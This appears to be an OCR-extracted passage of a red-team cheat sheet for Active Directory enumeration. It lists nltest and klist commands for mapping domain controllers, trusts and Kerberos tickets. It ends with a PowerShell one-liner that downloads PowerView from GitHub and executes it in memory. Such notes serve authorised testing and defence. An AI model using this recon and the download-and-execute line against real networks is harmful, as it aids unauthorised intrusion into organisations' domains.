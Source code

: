         -   **get forest trust relationships**

            -   nltest \[server:\<fqdn\_domain\>\] /domain\_trusts /all\_trusts /v

        -   **get DC for currently authenticated session**

            -    nltest /dsgetfti:\<domain\>

        -   **Get Parent Domain**

            -   nltest /parentdomain

        -   **get domain trusts from cmd shell**

            -   nltest /server:\<ip\_dc\> /domain\_trusts /all\_trusts

        -   **View All Domain Controllers**

            -   nltest /dclist:\[domain\] \"domain controllers\" /domain

        -   **view DC for Current Session**

            -    nltest /dsgetdc:\[domain\]

        -   **View Domain Trusts from CMD**

            -   nltest /domain\_trusts

        -   **View User Info from CMD**

            -   nltest /user:\"username\"

        -   **get domain name and DC the user authenticated to**

            -   klist

        -   **Get All Logged on Sessions, Includes NTLM & Kerberos**

            -   klist sessions

        -   **View Kerb Tickets**

            -    klist

        -   **View Cached Krbtgt**

            -   klist tgt

        -   **whoami on older Windows systems**

            -   set u

        -   **get DC for currently authenticated session**

            -    set l

    -   **Enum with Powerview and AD module**

        -   **Usage**

            -   **Powerview**

                -   IEX (New-Object Net.WebClient).DownloadString(\"<https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1>\")

